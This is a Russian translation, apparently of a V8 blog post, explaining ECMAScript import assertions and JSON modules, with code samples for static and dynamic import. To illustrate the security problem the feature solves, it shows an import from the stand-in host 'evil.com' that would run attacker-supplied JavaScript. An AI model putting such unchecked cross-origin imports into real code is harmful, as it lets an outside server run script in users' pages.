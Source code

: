 ```yaml
---
title: "Импорт утверждений"
author: "Дэн Кларк ([@dandclark1](https://twitter.com/dandclark1)), уверенный импортер утверждений"
avatars:
  - "dan-clark"
date: 2021-06-15
tags:
  - ECMAScript
description: "Импорт утверждений позволяет заявлениям импорта модулей включать дополнительную информацию вместе со спецификатором модуля"
tweet: ""
---
```


Новая функция [импорта утверждений](https://github.com/tc39/proposal-import-assertions) позволяет заявлениям импорта модулей включать дополнительную информацию вместе со спецификатором модуля. Первоначальное использование этой функции — это возможность импортировать JSON-документы в качестве [JSON-модулей](https://github.com/tc39/proposal-json-modules):

<!--truncate-->
```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from './foo.json' assert { type: 'json' };
console.log(json.answer); // 42
```

## Предыстория: JSON-модули и MIME-тип

Естественный вопрос заключается в том, почему JSON-модуль нельзя просто импортировать вот так:

```javascript
import json from './foo.json';
```

Веб-платформа проверяет MIME-тип ресурса модуля на соответствие перед его выполнением, и теоретически этот MIME-тип можно было бы использовать для определения, обрабатывать ли ресурс как JSON или как JavaScript-модуль.

Однако, существует [проблема безопасности](https://github.com/w3c/webcomponents/issues/839), связанная с использованием только MIME-типа.

Модули могут импортироваться с другого домена, и разработчик может импортировать JSON-модуль из стороннего источника. Это может показаться относительно безопасным, даже если источник не доверен, при условии, что JSON правильно очищен, так как импорт JSON не выполняет скрипт.

Однако, сторонний скрипт на самом деле может выполниться в этом сценарии, потому что сервер стороннего источника может неожиданно ответить типом MIME для JavaScript и вредоносным JavaScript-кодом, запустив его в домене импортера.

```javascript
// Выполняет JavaScript, если злоумышленник отвечает
// MIME-типом JavaScript (например, `text/javascript`)!
import data from 'https://evil.com/data.json';
```

Расширения файлов не могут использоваться для определения типа модуля, потому что они [не являются надежным индикатором типа контента в интернете](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md). Вместо этого мы используем импорт утверждений для указания ожидаемого типа модуля и предотвращения такой проблемы повышения привилегий.

Когда разработчик хочет импортировать JSON-модуль, он должен использовать импорт утверждений, чтобы указать, что это должен быть JSON. Импорт завершится неудачей, если MIME-тип, полученный из сети, не соответствует ожидаемому типу:

```javascript
// Завершается неудачей, если злоумышленник отвечает MIME-типом, не являющимся JSON.
import data from 'https://evil.com/data.json' assert { type: 'json' };
```

## Динамический `import()`

Импорт утверждений также может передаваться в [динамический `import()`](https://v8.dev/features/dynamic-import#dynamic) с помощью нового второго параметра:

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import('./foo.json', {
  assert: { type: 'json' }
});
console.log(jsonModule.default.answer); // 42
```

Содержимое JSON является экспортом по умолчанию модуля, поэтому оно доступно через свойство `default` объекта, возвращенного из `import()`.

## Заключение

В настоящее время единственное указанное использование импорт утверждений — это для указания типа модуля. Однако, эта функция была разработана с учетом возможности использования произвольных пар ключ/значение, поэтому в будущем могут быть добавлены дополнительные способы ограничения импорта модулей.

Между тем, JSON-модули с синтаксисом новых утверждений импорта доступны по умолчанию в Chromium 91. [Модульные скрипты CSS](https://chromestatus.com/feature/5948572598009856) также скоро появятся, используя тот же синтаксис утверждений для типа модуля.

## Поддержка импорт утверждений

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="no"
                 safari="no"
                 nodejs="no"
                 babel="yes https://github.com/babel/babel/pull/12139"></feature-support>

